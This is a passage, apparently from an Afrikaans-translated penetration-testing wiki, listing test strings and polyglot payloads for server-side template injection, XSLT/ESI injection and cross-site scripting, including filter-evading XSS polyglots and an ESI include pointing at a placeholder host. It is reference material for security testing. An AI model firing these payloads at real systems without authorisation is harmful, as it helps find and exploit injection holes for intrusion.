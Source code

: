 
Die dieselfde toetse wat vir Open Redirect gebruik word, kan hier gebruik word.

## [Server Side Template Injection](../ssti-server-side-template-injection/)

### Basiese Toetse
```markup
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
### Polygloths
```python
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
```
## [XSLT Server Side Injection](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md)

### Basiese Toetse
```markup
<xsl:value-of select="system-property('xsl:version')" />
<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
```
### Polygloths
```markup
<xsl:value-of select="system-property('xsl:version')" /><esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
```
## XSS

### Basiese Toetse
```markup
" onclick=alert() a="
'"><img src=x onerror=alert(1) />
javascript:alert()
```
### Polygloths
```markup
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
```
